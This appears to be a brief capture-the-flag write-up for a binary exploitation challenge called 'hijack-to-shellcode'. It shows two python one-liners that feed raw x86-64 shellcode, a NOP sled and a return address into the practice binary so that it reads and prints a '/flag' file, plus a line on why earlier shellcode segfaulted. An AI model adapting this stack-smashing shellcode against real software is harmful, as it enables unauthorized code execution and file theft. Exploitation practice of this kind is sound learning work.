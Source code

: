 The payload that i used

    python -c 'import sys; sys.stdout.buffer.write(b"\x31\xc0\xb8\x02\x00\x00\x00\x48\x8d\x3d\x1b\x00\x00\x00\x31\xf6\x0f\x05\x31\xff\x40\xb7\x01\x31\xf6\x40\x88\xc6\x31\xd2\x49\xc7\xc2\x80\x00\x00\x00\xb0\x28\x0f\x05\x2f\x66\x6c\x61\x67\x00" + b"\x90"*89 + b"\x70\xd2\xff\xff\xff\x7f")' | ./binary-exploitation-hijack-to-shellcode-w

The shell code that i used for previous challenge did not work so i had to create a different one
push and pop function in the shell was throwing seg fault because the shellcode was present on stack

    python -c 'import sys; sys.stdout.buffer.write(b"\x31\xc0\xb8\x02\x00\x00\x00\x48\x8d\x3d\x1b\x00\x00\x00\x31\xf6\x0f\x05\x31\xff\x40\xb7\x01\x31\xf6\x40\x88\xc6\x31\xd2\x49\xc7\xc2\x80\x00\x00\x00\xb0\x28\x0f\x05\x2f\x66\x6c\x61\x67\x00" + b"\x90"*25 + b"\xa0\xd2\xff\xff\xff\x7f")' | ./binary-exploitation-hijack-to-shellcode
